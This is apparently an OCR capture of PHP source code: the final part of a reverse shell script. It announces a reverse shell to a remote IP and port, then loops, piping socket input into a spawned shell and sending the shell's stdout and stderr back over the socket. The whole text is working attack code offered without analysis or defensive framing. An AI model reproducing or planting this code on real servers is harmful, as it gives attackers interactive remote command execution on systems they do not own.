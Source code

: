 ```php
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
  if (feof($sock)) {
    printit("ERROR: Shell connection terminated");
    break;
  }

  if (feof($pipes[1])) {
    printit("ERROR: Shell process terminated");
    break;
  }

  $read_a = array($sock, $pipes[1], $pipes[2]);
  $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

  if (in_array($sock, $read_a)) {
    if ($debug) printit("SOCK READ");
    $input = fread($sock, $chunk_size);
    if ($debug) printit("SOCK: $input");
    fwrite($pipes[0], $input);
  }

  if (in_array($pipes[1], $read_a)) {
    if ($debug) printit("STDOUT READ");
    $input = fread($pipes[1], $chunk_size);
    if ($debug) printit("STDOUT: $input");
    fwrite($sock, $input);
  }

  if (in_array($pipes[2], $read_a)) {
    if ($debug) printit("STDERR READ");
    $input = fread($pipes[2], $chunk_size);
    if ($debug) printit("STDERR: $input");
    fwrite($sock, $input);
  }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
  if (!$daemon) {
    print "$string\n";
  }
}

?>
```
